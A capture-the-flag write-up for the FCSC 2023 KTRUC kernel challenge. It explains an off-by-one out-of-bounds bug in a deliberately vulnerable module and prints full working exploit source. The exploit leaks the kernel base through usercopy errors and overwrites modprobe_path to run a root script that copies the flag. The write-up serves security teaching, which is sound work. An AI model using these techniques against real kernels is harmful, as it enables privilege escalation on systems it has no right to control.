










## KTRUC

was a kernel exploitation challenge from FCSC 2023 edition.

It was a basic kernel exploitation challenge, and was running on a recent ubuntu kernel,

on kernel version 5.19.0-35-generic, which introduce a lot of new security measures.

------

### 1 - Challenge description

The code source of the module was provided, as a file named `pwnme.c`,  so no reverse was necessary.

The author of the challenge also provided a `DockerFile`, a kernel image and an `initrd`, and a script to launch the vm with qemu.

A quick look at the launch script is still instructive:

```sh
#!/bin/sh
readonly LINUX=kinetic-server-cloudimg-amd64

qemu-system-x86_64                  \
	-cpu qemu64,+smep,+smap                                 \
	-m 512                                                  \
	-kernel $LINUX-vmlinuz-generic                          \
	-initrd initrd                                          \
	-serial stdio                                           \
	-append 'console=ttyS0 boot=ctf quiet=y'                \
	-nographic                                              \
	-monitor none                                           \
	-drive file=flag.txt,if=virtio,format=raw,readonly=true \
	"$@"
```

well we can see that the kernel has `smep` and `smap` security on, and that the `flag.txt` file containing the flag for the challenge, will be mapped as a virtual device inside the guest, as `/dev/vda`

Here is the source code of the kernel module;

```c
/* SPDX-License-Identifier: GPL-2.0-or-later
 *
 * This program is free software: you can redistribute it and/or modify it under
 * the terms of the GNU General Public License as published by the Free Software
 * Foundation, either version 2 of the License, or (at your option) any later
 * version.
 *
 * This program is distributed in the hope that it will be useful, but WITHOUT
 * ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS
 * FOR A PARTICULAR PURPOSE. See the GNU General Public License for more
 * details.
 *
 * You should have received a copy of the GNU General Public License along with
 * this program. If not, see <https://www.gnu.org/licenses/>.
 */
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/proc_fs.h>

#define PROC_NAME "pwnme"

struct fatptr {
	void *data;
	size_t size;
};

struct args_create { size_t size; };
struct args_switch { long index;  };

#define IOCTL_CREATE _IOW('p', 0, struct args_create)
#define IOCTL_SWITCH _IOW('p', 1, struct args_switch)

static struct fatptr *banks = NULL;
static size_t count = 0;
static long index = 0;

DEFINE_MUTEX(lock);

static int getData(void **data, size_t *length, off_t offset, size_t size)
{
	void *d;
	size_t s;

	// You must create an object first
	if(0 == count)
		return -ENXIO;

	// This can only happen during init (when count == 0)
	BUG_ON(index > count);

	// banks might be reallocated somewhere else, lock the mutex
	mutex_lock(&lock);
	d = banks[index].data;
	s = banks[index].size;
	mutex_unlock(&lock);

	*length = offset + size < s ? size : s - offset;
	*data   = d + offset;

	return 0;
}

static ssize_t
mod_read(struct file *file, char __user *out, size_t size, loff_t *off)
{
	void *data;
	size_t len;

	int r = getData(&data, &len, *off, size);
	if(0 != r)
		return r;

	if(copy_to_user(out, data, len))
		return -EFAULT;

	return len;
}

static ssize_t
mod_write(struct file *file, const char __user *out, size_t size, loff_t *off)
{
	void *data;
	size_t len;

	int r = getData(&data, &len, *off, size);
	if(0 != r)
		return r;

	if(copy_from_user(data, out, len))
		return -EFAULT;

	return len;
}

static long ioctl_create(const struct args_create __user *ptr)
{
	struct args_create args;
	void *data;

	if(copy_from_user(&args, ptr, sizeof(args)))
		return -EFAULT;

	// Allocate a new buffer
	data = kmalloc(args.size, GFP_KERNEL);
	if(NULL == data)
		return -ENOMEM;

	// Push the new object
	mutex_lock(&lock);
	banks = krealloc(banks, sizeof(*banks) * (count + 1), GFP_KERNEL);
	banks[count] = (struct fatptr){
		.data = data,
		.size = args.size,
	};
	mutex_unlock(&lock);

	return count++;
}

static long ioctl_switch(const struct args_switch __user *ptr)
{
	struct args_switch args;

	if(copy_from_user(&args, ptr, sizeof(args)))
		return -EFAULT;

	if(args.index > count)
		return -EINVAL;

	index = args.index;
	return index;
}

static long mod_ioctl(struct file *file, unsigned int arg, unsigned long ptr)
{
	switch(arg) {
		case IOCTL_CREATE:
			return ioctl_create((struct args_create*)ptr);

		case IOCTL_SWITCH:
			return ioctl_switch((struct args_switch*)ptr);

		default:
			return -ENOSYS;
	}
}

static struct proc_dir_entry *entry;

static int __init ctor(void)
{
	static const struct proc_ops ops = {
		.proc_read  = mod_read,
		.proc_write = mod_write,
		.proc_ioctl = mod_ioctl,
	};

	entry = proc_create(PROC_NAME, 0, NULL, &ops);

	if(!entry)
		return -ENOMEM;

	return 0;
}

static void __exit dtor(void)
{
	proc_remove(entry);

	for(size_t i = 0; i < count; i++)
		kfree(banks[i].data);

	kfree(banks);
}

module_init(ctor);
module_exit(dtor);

MODULE_LICENSE("GPL");
MODULE_DESCRIPTION("Vulnerable device driver for FCSC 2023");

```

<u>A quick resume of what it does:</u>

* create a `/proc/pwnme` /proc entry, that can be read, written, or accessed via ioctl

* the ioctl interface export two functions:

  1 - **create function**:  allocate a memory chunk with `kmalloc(size, GFP_KERNEL)`, after each allocation `count`variable is increased,  the chunks allocated are recorded in a table named `banks[]`, the table size is increased after each new chunk creation with

  ` krealloc(banks, sizeof(*banks) * (count + 1), GFP_KERNEL);`

  2 - **set index function**: set index of chunk in `banks[]` table on which `read`, `write` operations operate.

The `banks[]`table record each entry as a small structure named `fatptr`, that looks like this:

```C
struct fatptr {
	void *data;
	size_t size;
};
```

So, each entry is 16 bytes long (two qwords).

------

### 1.2 A good debugging setup
This challenge is running on a ubuntu stock kernel version 5.19.0-35-generic #36-Ubuntu so to ease the debugging process, we can download the ubuntu version of this kernel with the debug symbols.
Ubuntu provide a version of their kernel with debug symbols for every version, so no need to recompile it, you can find it on their server at this link:

[http://ddebs.ubuntu.com/pool/main/l/linux/linux-image-unsigned-5.19.0-35-generic-dbgsym_5.19.0-35.36_amd64.ddeb](http://ddebs.ubuntu.com/pool/main/l/linux/linux-image-unsigned-5.19.0-35-generic-dbgsym_5.19.0-35.36_amd64.ddeb)

the archive will contains the kernel and all the modules, with debug symbols. They are huge,the kernel only is around 700MB !

so we will extract only the kernel, as we don"t care about all the modules, you can extract it like this:

```sh
dpkg --fsys-tarfile linux-image-unsigned-5.19.0-35-generic-dbgsym_5.19.0-35.36_amd64.ddeb | tar xf - ./usr/lib/debug/boot/vmlinux-5.19.0-35-generic --strip-components 5
```

you will get a file named: `vmlinux-5.19.0-35-generic`

secondly I will advise you to use `pwndbg` gdb extension, as it has some useful commands for debugging kernel,

https://github.com/pwndbg/pwndbg

install it with their script `setup.sh` is will install `gdb-pt-dump` scripts too, that are great extensions for kernel debugging,

you can do: `help pt` in gdb to have more info about added commands.

You can dump actual kernel mappings with pt, search strings in it, and many more useful commands.

You should also extract gdb scripts from kernel .ddeb package like this:

```sh
dpkg --fsys-tarfile linux-image-unsigned-5.19.0-35-generic-dbgsym_5.19.0-35.36_amd64.ddeb | tar xf - ./usr/share/gdb/auto-load/boot/vmlinux-5.19.0-35-generic --strip-components 7
```

you will get a file named `vmlinuz-5.19.0-35-generic-gdb.py` and a subdirectory `scripts/`

that script contains very useful commands for kernel debugging , beginning with lx-:



with `lx-lsmod` you can list loaded modules, with their loading addresses, with `lx-ps  `a list of the tasks with their kernel addresses, etc...

If you like luxury (because you deserve it..) the next step will be to install the kernel sources, you can download them like this:

```sh
git clone git://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/kinetic
mv kinetic linux-5.19.0
cd linux-5.19.0
git tag -l Ubuntu-*    # to list available sub-versions
git checkout Ubuntu-5.19.0-35.36
```

Each ubuntu distribution has a different codename, the codename version for our kernel is kinetic (ubuntu 22.10 line)

The whole download is around 4.2GB so be patient.. at the end you will have the exact source code of our kernel version.

So for using all this, you can prepare a script for launching gdb like that:

```sh
gdb \
-ex 'source /yourpath/pwndbg/gdbinit.py' \
-ex 'add-auto-load-safe-path ./directory-with-vmlinuz-5.19.0-35-generic-gdb.py/' \
-ex 'source ./directory-with-vmlinuz-5.19.0-35-generic-gdb.py/vmlinuz-5.19.0-35-generic-gdb.py' \
-ex 'target remote localhost:1234' \
-ex 'set substitute-path /build/linux-tGckOR/linux-5.19.0 ./linux-5.19.0' \
-ex 'c' ./vmlinux-5.19.0-35-generic
```

you have to replace with the correct path to your pwndbg installation, to the directory containing `vmlinuz-5.19.0-35-generic-gdb.py` and to the path containing your kernel source.

the substitute path is a hardcoded path in the `vmlinux`  you can find it with:

```sh
strings vmlinux-5.19.0-35-generic | grep '/build/' | head -n 1
/build/linux-tGckOR/linux-5.19.0/arch/x86/purgatory/setup-x86_64.S
```

we will just tell gdb to replace it to our directory with the substitute command.

last but not least when the vm is started you should check pwnme module address, and load its symbols into gdb like that



You use `lx-lsmod` command to list modules loading addresses, and do the command: `add-symbol-file pwnme.ko module_address`

with the address outputed from lx-lsmod (often this address does not change between, so you can add it to the gdb debug script, but sometimes it changes...so in this case you can do it by hand)

Now you will have access to the `pwnme.ko` modules  symbols.

now you can modify your launch script by adding `-S -gdb tcp::1234` at the end like that

```sh
#!/bin/sh
readonly LINUX=kinetic-server-cloudimg-amd64

qemu-system-x86_64                  \
        -cpu qemu64,+smep,+smap                                 \
        -m 512                                                  \
        -kernel vmlinux-5.19.0-35-generic                          \
        -initrd new.initrd.gz                                          \
        -serial mon:stdio \
        -append 'console=ttyS0 boot=ctf quiet=y'                \
        -nographic                                              \
        -monitor none                                           \
        -net user,hostfwd=tcp::8022-:22 \
        -drive file=flag.txt,if=virtio,format=raw,readonly=true -S -gdb tcp::1234 \
```

the `-S -gdb tcp::1234` with stop execution of VM at first instruction, and will wait for gdb connection before continuing.

You can launch the gdb debug script in another terminal an normally you will have a debug windows that looks like this:



You can see that you have the symbols , and the source code.. everything needed to work..

If you want to modify the initrd to have root privilege in the vm, you can extract initrd with this script:

https://github.com/samwhelp/tool-initramfs-extract

just using cpio will not work, but this tool works well.

In the rootfs, you can modify the /shell binary , is is an hardcoded shell that do this:



I just patched it to replace 0x3e8 by 0, you can probably just edit the scripts/ctf  script too..

and now you have a good setup to work !

------

### 2 - So, where is the vuln ??!!

As always..devil is in the details..

if you look better at ioctl_switch function:

```c
static long ioctl_switch(const struct args_switch __user *ptr)
{
	struct args_switch args;

if(copy_from_user(&args, ptr, sizeof(args)))
		return -EFAULT;

if(args.index > count)
		return -EINVAL;

index = args.index;
	return index;
}
```

It checks before changing current index if the `args.index` requested index is not greater than `count`(actual count of chunks)

That could look correct, but it's not.

Let's say you create 3 chunks, so the current count is 3.

So the indexes of the chunks will be 0, 1, and 2.  But if you choose index 3 it will pass the test `if(args.index > count)` and will access a chunk that does not exist.

So we have a 1 chunk OOB access vulnerability. ( the correct comparaison should be -->  `if(args.index >= count)` )

------

### 3 - How to exploit it?

First we have to talk about SLUB/SLAB allocation.

Chunks of memory allocated with `kmalloc` and other memory allocation functions, are stored in various caches, depending on size, and of some flags.

You can see a list of various caches in `/proc/slabinfo`

```sh
sudo cat /proc/slabinfo
```



We can increase our chunks count in an unlimited manner, and `banks[]` table will be reallocated to acomodate the new size.

That means that we can make `banks[]`table goes in any cache size we want. But we can only add chunks, and increase the size.

We have no functions to free chunks with the module.

As we have an oob access on the last (non-existing) chunk, we will have to stick to a full chunk cache size for our `banks[]` table.

for example 8 or 16, or 32, or 64, etc... corresponding to the cache size we want it to reside.

Like this, the oob access will goes in the next chunk in the cache.

I recommend people who have no experience in slub/slab allocator in kernel, to read some documentation about it first.

I would be too long to explain it in details in this writetup, but you can found many good documentation about kernel slab allocator online, like for example:

https://blogs.oracle.com/linux/post/linux-slub-allocator-internals-and-debugging-1

So...

when you set the index to the oob chunk, and that you try to read or write from the `/proc/pwnme`,

read and write functions will call `getData()`, that will check bounds , and in return will return pointers to data and length read from the next chunk in cache so,  the `getdata()` use mutexes to protect from race conditions as you can see below:

```c
mutex_lock(&lock);
d = banks[index].data;
s = banks[index].size;
mutex_unlock(&lock);
```

So if we can write an address and a length in the next chunk in the cache, we could have a read/write primitive.

For that we need to be able to have an allocation next to our cache, could be achieve by spraying kernel objects, or with the provided chunk allocations.

The problem that we will first have, is that heap allocation in the recent kernel, is random, and not longer sequential , so we first talk first of some of the security protection implemented in the last kernels, like the ubuntu 5.19 kernel line..

------

4. #### Security hardening in new kernels.

This documentation was useful during this challenge as it resumes some of the security hardening that newer kernel have:

https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022

You will see when experimenting with the vulnerability, that it is difficult to have sequential heap allocation, and when you spray kernel objects, it is more difficult than before to have an object allocated at the place you need.

That is partly because of **"FREELIST pointer randomisation"**,  it randomize chunk placement on heap , and make classic strategies more difficult..



Look at the picture above .. you got the idea..


Another things that changed in newer kernel, is that since kernel 5.14, kernel object allocated with flag `GFP_KERNEL` and those allocated with `GFP_KERNEL_ACCOUNT` are put in a different cache.



For example you will find a lot of write-up of kernel exploitation that are using `msg_msg` for spraying kernel object, but that is no more possible, as `msg_msg` structure are now allocated in a different cache as they use `GFP_KERNEL_ACCOUNT` as you can see in the `ipc/msgutil.c` source code in the kernel:

```c
static struct msg_msg *alloc_msg(size_t len)
{
	struct msg_msg *msg;
	struct msg_msgseg **pseg;
	size_t alen;
    alen = min(len, DATALEN_MSG);
    msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT);
etc..
```

So now when trying to use an kernel object for your spraying need, you should check the source code, how it is allocated.

Another protection that you will encounter is **"hardened usercopy"**, it applies for functions `copy_to_user`/`copy_from_user`

that are used by mod_read() and mod_write() when reading or writing to /proc/pwnme challenge.

It is supposed to prevent data leaking, form slab already freed, and was introduced as a mitigation against heap overflows/infoleaks when copying data from/to user space.

------

### 5 . So what's the plan ?

Well my first plan was classic approach to uaf, oob and so.. let's spray an kernel object that will fall just after our `banks[]` chunk, and use the oob to get leak / exec with our kernel object.

After finding that `msg_msg` was no more allocated in the same general cache, I find the  `timerfd_ctx` object that permits to have a leak and a code execution at the same time...perfect.. and it falls in 0x100 cache size..

So I quickly got a working exploit, tooks some minute to works locally, depending on luck.. more than enough..

game is finished... let's try it remotely.

well not finished in fact, even after running my exploit remotely for hours, It never succeed..

(I've known later after I've flagged the challenge , from a friend that took the same approach, that he had exactly the same problem, he used a different object for spraying, got it working locally, but never succeed in making it work remotely...)

### 5.1 So what's the second plan ?

Well after all, we can allocate chunk with the module, so why spraying ? let's see if after some allocations, we can have one of our chunks allocated after the `banks[]` chunks.

So let's allocate 16 chunks of 0x100 size, it will make a `bank[]`table of 0x100 size too (16*16), and let's see if we can have one of our chunks falling at the place where we have our OOB:



Well, after a few tries, it success quite easily.. you can see in the picture above in yellow the `banks[]` table  , with the 16 chunks allocated, and you can see that one of them is just allocated at the place where is our OOB access..

So setting index to this chunk, we can write the value we want in the place of our OOB. Then by setting index to 16, we can read or write at the address we wrote there.  So we basically have a controlled read / write primitive.

Now we need a leak.

First plan to have a leak was to read values with the oob, sometimes you have an address of an object, sometimes you can find kernel program addresses, but because of the randomness of the heap, it was a bit difficult , and need a lot of tries to have a program leak..

that's where the usercopy hardening came back in my memory.

when you try to read an already free chunk with the oob, it will spit out an error , and kill the process responsible, but the kernel does not crash.. and looks at what kind of error it spits out..



well for an educated eye, you can see that it spits out some kernel addresses, mainly kernel stack addresses and the `GS` register value.

interesting no?

so why not using that for a leak?

so the plan is to allocate a single chunk , then try to read with oob next chunk.. and try again until it spits out an `usercopy` error message.

then copy `GS`  value from this output.

After exploring the kernel zone pointed by GS, I found a pretty constant kernel program address at `GS+0x202d8`.

So now we can run a second exploit that will use `GS` value, allocate our next 15 chunks (as 1 was already allocated for spitting out `usercopy` error), then we copy `GS+0x202d8` address in the oob chunk.

Then we leak the kernel program address, calculate Kernel Base with it.

The we write `modprobe_ path` address in the oob chunk.

And finally we write the string of a program we will control instead of the original `/sbin/modprobe`, that's a classic way to achieve code execution. (you can find write-up explaining this method more in depth like this one:  https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/ )

so I coded an `exp.py` program that will upload the `poc` that just cause an `usercopy` error, and the `working.exploit` final exploit, executed the `poc`, get the `GS` leak, and pass it to the `working.exploit`and we are done. as you can see:



Here is the working.exploit source code:

```c
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <mqueue.h>
#include <linux/io_uring.h>
#include <linux/keyctl.h>
#include <fcntl.h>
#include <poll.h>
#include <pthread.h>
#include <linux/userfaultfd.h>
#include <linux/netlink.h>
#include <arpa/inet.h>

#define TOTAL_BANKS 16

struct fatptr {
	void *data;
	size_t size;
};

struct args_create { size_t size; };
struct args_switch { long index;  };

int devfd;

#define DUMPSIZE 1024

// add a struct fatptr entry to banks table
static int addblock(int size)
{
struct args_create ac;

		ac.size = size;
		return (ioctl(devfd, 0x40087000, &ac));
}

static int changeindex(int index)
{
struct args_switch as;

	as.index = index;
	return (ioctl(devfd, 0x40087001, &as));
}

void get_flag(void){
    puts("[*] Returned to userland, setting up for fake modprobe");
    system("echo '#!/bin/sh\ncp /dev/vda /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");
    puts("[*] Run unknown file");
    system("/tmp/dummy");
    puts("[*] Hopefully flag is readable");
    system("cat /tmp/flag");
    exit(0);
}

unsigned long long modprobe_path = 0;
unsigned oobindex = 0;

void read_primitive(char *dst, char *src, int length)
{
char tmp[16];

	changeindex(oobindex);
	*(uint64_t *)tmp = src;
	*(uint64_t *)(tmp+8) = length;
	write(devfd,tmp,16);
	changeindex(TOTAL_BANKS);
	read(devfd, dst, length);
}

void write_primitive(char *dst, char *src, int length)
{
char tmp[16];

	changeindex(oobindex);
	*(uint64_t *)tmp = dst;
	*(uint64_t *)(tmp+8) = length;
	write(devfd,tmp,16);
	changeindex(TOTAL_BANKS);
	write(devfd, src, length);
}


int main(int argc, char *argv[])
{
int i;
int ret;
unsigned char buff[DUMPSIZE];
unsigned char buff2[DUMPSIZE];
unsigned char temp[16];
uint64_t leak1, kbase, kbase2, modprobe_path, gs;

	gs = 0;
	if (argc>1)
	{
		gs = strtoull(argv[1],NULL,16);
		printf("gs = 0x%llx\n", gs);
	}
	else
	{
		printf("give me gs register value as argument please...\n");
		exit(1337);
	}
	// open device
	devfd = open("/proc/pwnme", O_RDWR);
	if (devfd < 0) {
		perror("open");
		exit(EXIT_FAILURE);
	}

	// one block is already allocated by poc
	for (i=1; i<2; i++)
		addblock(TOTAL_BANKS * 16);
	// use index 2 oob to 
	changeindex(2);
	// read oob data leak
	read(devfd,buff,32);
    leak1 = *(uint64_t *)(buff+8);
    printf("leak heap = 0x%llx\n", leak1);

	for (i=2; i<TOTAL_BANKS; i++)
	{
		addblock(TOTAL_BANKS * 16);
	}

	memset(buff2,0,DUMPSIZE);		// clear buff2 first
	for (i=0; i<TOTAL_BANKS; i++)
	{
		*(uint64_t *)buff = leak1;
		*(uint64_t *)(buff+8) = 0xdeadbeef;
		changeindex(i);
		// try to write oob chunk
		write(devfd,buff,16);
		// change index to oob chunk
		changeindex(TOTAL_BANKS);
		memset(temp,0,16);		// clear temp[]
		read(devfd,temp,16);
		if (memcmp(temp, buff2, 16) != 0)
		{
			oobindex = i;
			printf("Index pointing to OOB found --> %d\n", i);
			break;
		}
		// clear uneeded
		write(devfd,buff,16);;
	}
	if (i==TOTAL_BANKS)
	{
		puts("Index pointing to OOB not found.");
		exit(0);
	}
	read_primitive(buff,gs+0x202d8, 8);

	kbase = *(uint64_t *)buff;
	kbase -= 0x201b580;
	modprobe_path = kbase + 0x208b980;
	printf("Kbase = 0x%llx\n", kbase);
	printf("modprobe_path = 0x%llx\n", modprobe_path);
	
	memset(buff,0,16);
	strcpy(buff,"/tmp/x");
	write_primitive(modprobe_path, buff, 7);

	get_flag();
    close(devfd);

    return 0;
}
```

P.S.:

for compiling `working.exploit.c` and  `poc.c` , you can use musl-gcc or dietlibc, to generate a small static binary.


**nobodyisnobody still drawing mandala with sand..and see them disappear. content.**
